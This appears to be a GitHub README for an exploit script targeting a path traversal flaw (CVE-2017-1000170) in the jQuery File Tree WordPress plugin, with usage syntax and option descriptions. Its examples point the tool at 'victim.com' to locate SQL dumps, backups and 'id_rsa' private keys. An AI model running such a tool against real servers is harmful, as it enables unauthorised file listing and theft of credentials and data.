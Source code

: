 # Jquery-File-Tree-1.6.6-Path-Traversal
Jquery File Tree 1.6.6 Path Traversal exploit (CVE-2017-1000170)

The jQueryFileTree <1.6.6 plugin for Wordpress default settings fail to parse the user data causing a path traversal vulnerability.

This allows an attacker to list all the filesnames of all readabçe folders of the webserver. 

Added to a local file inclusion attack this can lead to arbitrarily download any readable file of the server.

# Usage

`$ xpl_jqueryFileTree.php -u url \[-f extensions/filenames] \[-p path] \[-r] \[-h] \[-a]`

Legend:
```
  -h, --help: Show this message
  -u, --url: URL of target
  -a, --random-agent: Use random user agents
  -f, --filter: Name of files or extensions to search for (separated by comma)
  -p, --path: The full path from which the filenames will be read (default: /)
  -r, --recursive: Generates the tree recursivelly (be careful)

  e.g.: xpl_jqueryFileTree.php -u victim.com -f .zip,.sql -p /var/www/html/backup/admin/ -r
        |
         \-> This will search for all .zip and .sql files inside victim.com/backup/admin and its subpaths
             (You must provide the dot to indicate it's an extension)

        xpl_jqueryFileTree.php -u victim.com -f .log,id_rsa -a -r
        |
         \-> This will search for all files named "id_rsa" or having the extension
             ".log" within all folders of the server, with random user-agents

        Tip: use "php ..... | tee output" to save the result to an output file
```

![](https://i.imgur.com/K2ITuMg.png)
